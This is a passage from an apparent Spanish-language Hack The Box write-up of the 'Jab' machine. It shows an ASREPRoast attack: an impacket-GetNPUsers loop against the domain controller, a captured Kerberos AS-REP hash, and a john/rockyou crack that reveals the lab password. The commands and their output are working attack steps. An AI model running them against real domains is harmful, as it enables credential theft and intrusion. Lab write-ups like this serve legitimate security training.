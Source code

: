 En un primer análisis, parecería que todos los usuarios enumerados son válidos. Con esta lista confirmada, podemos proceder a realizar un ataque **ASREPRoast** para intentar obtener hashes Kerberos de usuarios configurados sin la opción *Do not require Kerberos preauthentication*. Aquí está el comando que utilicé:
## ASREPRoast Attack

Si quieres saber como funciona este ataque te invito a visitar la resolución de la maquina [Sauna](https://7heansw3r.github.io/HTB-Sauna-Writeup/) donde explico a detalle como funciona el ataque.

```bash
while read user; do 
    impacket-GetNPUsers jab.htb/"$user@jab.htb" -request -no-pass -dc-ip 10.10.11.4 >> hash.txt 2>/dev/null
done < posibles_usuarios.txt
```

Sin embargo, este método puede ser lento, especialmente si trabajamos con una lista extensa de usuarios. Estoy buscando una manera de optimizar este proceso para hacerlo más eficiente, mientras tanto podemos utilizar el comando `grep krb hash.txt` en una ventana en paralelo para tener los posibles resultados después de un largo rato encontramos una cuenta que Requiere preautenticación 

```zsh
grep krb hash.txt
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:36ae0005b3a314b420ff539ee1a4349e$dd298b67149e896e4b991ebde0921c8e57c63b0784be5dcffc2e966da614a91e6a549f34f3197fa63af7c2cb232dafdbf7072e8cdedc269d58744c0bdf2be011deb2c61d4a9eef28662b913a9d27cbb190b074fd87dd9196f44efe0571bda2a5a0e07c14b766059bba02554e46572bcef83296199ca34f4c5e6e14826306cad2ec5cb53d894f36aa22bf981d813e5f1b1a2d6c4f70db9c3ee62c4830f9b2c6c1ed66c5f736ec0d473f08774845f9196ab05bf9555ed8126863ca6a9a6f10544fbf4a634f20c3f6c3c44f998b9ba769fb1b165a44d01b43dc19baa32a8f169a85822e
```

Como nos gusta romper todo utilizamos john o hashcat para tener la contraseña en texto plano si es posible y pues si es posible. 

```zsh
john hash_jmont --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Midnight_121     ($krb5asrep$23$jmontgomery@jab.htb@JAB.HTB)     
1g 0:00:00:16 DONE (2024-11-15 05:51) 0.05913g/s 640196p/s 640196c/s 640196C/s Mike2745..Mia1216
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Con credenciales validas podemos hacer muchas cosas como iniciar sesión en el servicio **XMPP** del objetivo, permitiéndonos interactuar directamente con su plataforma de mensajería.

<figure>
